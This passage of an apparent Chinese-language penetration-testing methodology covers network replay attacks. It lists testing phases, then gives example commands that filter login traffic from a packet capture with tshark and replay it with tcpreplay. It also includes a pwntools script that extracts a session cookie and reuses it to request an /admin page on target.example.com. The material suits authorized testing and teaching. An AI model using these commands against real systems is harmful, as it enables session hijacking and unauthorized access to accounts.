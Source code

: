 2. **准备阶段**：
   - 提取相关数据包
   - 根据需要修改数据包（头部、负载）
   - 准备重放序列
   - 如有必要开发自定义脚本

3. **执行阶段**：
   - 执行重放攻击
   - 监控和分析结果
   - 根据反馈调整方法
   - 记录发现

4. **文档阶段**：
   - 记录攻击方法
   - 记录识别的漏洞
   - 推荐修复步骤

## 示例工作流程

### 1. 基本数据包分析和重放

```python
# Analyze a PCAP file to identify authentication packets
generic_linux_command("tshark", "-r capture.pcap -Y 'http.request.method==POST && http.host contains \"login\"' -T fields -e frame.number -e ip.src -e tcp.srcport -e ip.dst -e tcp.dstport -e http.request.uri -e http.file_data")

# Extract specific packets for replay
generic_linux_command("tshark", "-r capture.pcap -w auth_packets.pcap -Y 'frame.number==1234'")

# Replay extracted packets
generic_linux_command("tcpreplay", "-i eth0 -t -K auth_packets.pcap")
```

### 2. 使用pwntools进行会话令牌提取和重放

```python
from pwn import *
import re

# Example Python code for extracting and reusing a session token
def extract_and_replay_token():
    # Read a PCAP file
    with open('capture.pcap', 'rb') as f:
        pcap_data = f.read()

    # Extract session token using regex
    token_match = re.search(b'session=([a-zA-Z0-9]+)', pcap_data)
    if token_match:
        session_token = token_match.group(1)
        log.success(f"Found session token: {session_token}")

        # Create a new request with the extracted token
        r = remote('target.example.com', 80)
        r.send(b'GET /admin HTTP/1.1\r\n')
        r.send(b'Host: target.example.com\r\n')
        r.send(b'Cookie: session=' + session_token + b'\r\n\r\n')
        response = r.recvall()
        log.info(f"Response: {response}")
    else:
        log.failure("No session token found")

extract_and_replay_token()
```

